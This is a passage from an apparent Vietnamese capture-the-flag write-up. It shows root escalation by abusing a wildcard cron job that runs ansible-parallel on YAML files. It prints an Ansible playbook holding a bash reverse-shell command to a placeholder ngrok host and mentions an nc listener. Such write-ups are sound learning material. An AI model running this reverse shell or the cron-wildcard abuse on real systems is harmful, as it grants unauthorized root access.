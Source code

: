 Check file `/etc/cron.d/cron`. Không hiểu sao mình không `cat` ra được nhưng file này không có trống nên mình sẽ dùng `strings` thay thế thì lại ra :)

```bash
strings /etc/cron.d/cron
```

Đây là nội dung file:

![](./img/30.png)

Cứ mỗi 1 phút thì user `root` sẽ chạy lệnh `/usr/local/bin/ansible-parallel /opt/automated/tasks/webapp/*.yml`

Nhờ dấu `*` nên mình có thể tạo ra file `yml` bất kì và nó sẽ được thực thi. Và nếu có cách nhét được lệnh os vào file đã tạo đó thì mình sẽ leo quyền thành công.

## **Leo quyền lên root**

Search google về `ansible shell command` thì thấy bài [docs](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html) này. Theo đó, mình sẽ tạo file `exploit.yml` với nội dung như sau:

```yaml
- hosts: localhost
  tasks:
    - name: Run command
      shell: 
        cmd: bash -c 'bash -i >& /dev/tcp/NGROK_HOST/NGROK_PORT 0>&1'
```

Tuy nhiên, cả `nano` lẫn `vi` không có trên máy nên mình đã nghĩ dùng `python` kết hợp với `echo -e` viết vào file

![](./img/31.png)

![](./img/32.png)

Thiết lập nc listener
